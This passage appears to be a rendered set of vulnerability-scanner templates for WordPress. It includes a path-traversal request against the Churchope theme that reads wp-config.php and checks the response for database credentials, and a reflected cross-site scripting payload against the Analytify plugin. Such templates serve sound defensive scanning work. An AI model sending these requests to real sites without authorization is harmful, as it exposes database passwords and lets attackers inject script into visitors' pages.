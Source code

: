 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# Analytify \<4.2.1 - Cross-Site Scripting

## Description

- WordPress Analytify 4.2.1 does not escape the current URL before outputting it back in a 404 page when the 404 tracking feature is enabled, leading to reflected cross-site scripting.

- severity - medium
- tags - wp,wordpress,analytify,wpscan,wp-plugin,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/aa404bb?a\</script>\<script>alert(/XSS/)\</script>

### Matchers

**Type - word**

- part - body
- words
  1. text/javascript">alert(/XSS/)\</script>
  2. wp-analytify
- condition - and
